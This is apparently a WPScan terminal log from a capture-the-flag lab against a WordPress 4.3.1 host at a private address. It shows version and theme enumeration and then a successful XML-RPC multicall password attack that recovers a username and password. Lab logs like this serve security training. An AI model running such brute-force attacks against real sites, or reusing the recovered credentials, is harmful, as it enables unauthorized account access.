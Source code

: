```bash
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.117.144/c607a28.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.117.144/c607a28.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.117.144/wp-content/themes/twentyfifteen/
 | Last Updated: 2020-03-31T00:00:00.000Z
 | Readme: http://10.10.117.144/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://10.10.117.144/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.117.144/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===================================================================================================================================> (21 / 21) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <========================================================================================================================================================> (0 / 0) 100.0% Time: 00:00:00
WARNING: Your progress bar is currently at 0 out of 0 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 00:00:00 <========================================================================================================================================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - elliot / ER28-0652
All Found

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Aug 10 21:52:16 2020
```